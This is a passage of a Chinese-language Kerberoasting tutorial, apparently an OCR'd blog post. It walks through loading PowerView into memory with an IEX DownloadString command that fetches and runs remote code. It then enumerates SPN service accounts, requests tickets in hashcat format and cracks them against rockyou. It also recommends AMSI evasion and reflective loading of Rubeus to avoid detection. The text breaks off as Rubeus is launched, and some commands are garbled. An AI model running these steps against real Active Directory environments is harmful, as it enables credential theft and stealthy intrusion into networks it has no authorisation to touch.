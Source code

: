 ## 枚举

首先让我们导入 PowerView.ps1 到内存中  
IEX (New-Object Net.WebClient).DownloadString('[http://werbserver:80/PowerView.ps1](http://werbserver/PowerView.ps1)')  
当然 AMSI 可能会发现这一点，WIN10 1803 但我会把逃避留给你自己。我的仓库中有很多绕过方法 h4cks，网上也有很多绕过方法。AMSI 只是字符串检测，所以很容易溜过去。  
现在，在加入域的计算机上内存中使用 PowerView，我们可以简单地运行

```bash
Get-DomainUser -SPN
$secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)
```

```bash
Get-DomainUser -SPN -Credential $cred
```

就是这样！它将返回设置了 SPN 值的所有用户。

## 开发

现在，随着目标服务帐户在我们的范围内，我们实际上可以请求破解票证，这再简单不过了 PowerView.ps1  
只需简单地运行以下命令

```bash
Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat -Credential $cred
```

NTLM 这将返回使用目标帐户的哈希值加密的 SPN 票证。请记住，我选择 Hashcat 而不是 John，因为我使用 Nvidia 破解设备，但使用 Hashcat 效果更好。  
现在我们可以简单地破解类似的东西  
hashcat64.exe -a -m 13100 SPN.hash /wordlists/rockyou.txt  
当然，这是简单的破解攻击，因为它只是针对一个简单的单词列表，但如果这是在现实世界中，您将通过规则集和更可能的单词列表进行混合。

## Rubeus

其次，我们有 Rubeus，这是一个由 SpectreOps 的向导开发和发布的相对较新的工具。  
Rubeus 实际上是一种 Kerberos 攻击工具，我们将在本文中详细介绍它，它是用 C#/.NET 开发的，这意味着防御者更难检测到它，它是使用 Cobalt 之类的反射加载的，execute-assembly 或者 SILENTTRINITY.您也可以从以下位置反射加载它：PowerShell，但我将.NET 在以后的文章中更详细地介绍。  
[https://github.com/GhostPack/Rubeus\`](https://github.com/GhostPack/Rubeus%60)

## 枚举

现在默认情况下，我不相信 Rubeus 具有 Enumerate 简单地枚举具有 SPN 值集的用户的功能，但说实话，这对于 Kerberoasting 来说并不是困难的部分，只需使用一点 Powershell / LDAP Magic，您就可以找到您想要的内容。以下是一些示例。

```bash
get-aduser -filter {AdminCount -eq 1} -prop * | select name,created,passwordlastset,lastlogondate
dsquery * "ou=domain controllers,dc=yourdomain,dc=com" -filter "(&(objectcategory=computer)
(servicePrincipalName=*))" -attr distinguishedName servicePrincipalName > spns.txt
```

还有更多技术，例如 Get-DomainUser -SPN 上面讨论的技术以及许多其他方法，我将留给您想象。  
现在我们已经有了目标帐户，启动 Rubeus。
